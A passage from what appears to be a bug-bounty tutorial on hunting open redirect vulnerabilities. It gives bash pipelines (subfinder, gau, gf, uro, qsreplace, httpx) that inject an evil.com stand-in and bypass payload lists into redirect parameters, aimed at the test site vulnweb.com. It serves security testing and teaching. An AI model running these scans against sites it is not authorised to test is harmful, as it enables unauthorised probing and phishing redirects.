 After collecting all the URLs its time to filter out duplicates and sort them.

```bash
cat urls1.txt urls2.txt urls3.txt | uro | sort -u | tee final.txt
```

#### Filtering URLs for Redirect Parameters

Using the grep command to filter out all open redirect parameters used for redirections:

```bash
cat final.txt | grep -Pi "returnUrl=|continue=|dest=|destination=|forward=|go=|goto=|login\?to=|login_url=|logout=|next=|next_page=|out=|g=|redir=|redirect=|redirect_to=|redirect_uri=|redirect_url=|return=|returnTo=|return_path=|return_to=|return_url=|rurl=|site=|target=|to=|uri=|url=|qurl=|rit_url=|jump=|jump_url=|originUrl=|origin=|Url=|desturl=|u=|Redirect=|location=|ReturnUrl=|redirect_url=|redirect_to=|forward_to=|forward_url=|destination_url=|jump_to=|go_to=|goto_url=|target_url=|redirect_link=" | tee redirect_params.txt
```

A more effective approach is to use the gf tool pattern to filter only open redirect parameters with the following command:

```bash
final.txt | gf redirect | uro | sort -u | tee redirect_params.txt
```

> https://github.com/coffinxp/GFpattren/blob/main/redirect.json


Now its time for the final exploitation phase. Lets identify potential payloads and test for successful redirections

```bash
cat redirect_params.txt | qsreplace "https://evil.com" | httpx-toolkit -silent -fr -mr "evil.com"`
```

Or you can also achieve same using the following method:

```bash
subfinder -d vulnweb.com -all | httpx-toolkit -silent | gau | gf redirect | uro | qsreplace "https://evil.com" | httpx-toolkit -silent -fr -mr "evil.com"
```

![None](https://miro.medium.com/v2/resize:fit:700/1*h7GU2e5ZRyWhxcRWvKZVlQ.jpeg)

It will display all the URLs that redirect to evil.com on the screen.

To scan for all open redirect bypass payloads from my custom list use the following command:

```bash
cat redirect_params.txt | while read url; do cat loxs/payloads/or.txt | while read payload; do echo "$url" | qsreplace "$payload"; done; done | httpx-toolkit -silent -fr -mr "google.com"
```

![None](https://miro.medium.com/v2/resize:fit:700/1*8PLeDM1E4ODcnFEI41N2hA.jpeg)

This command will test all the custom open redirect bypass payloads from coffinxp or.txt list against each URL parameter. If any redirection to Google is detected in the response it will be displayed on the screen.
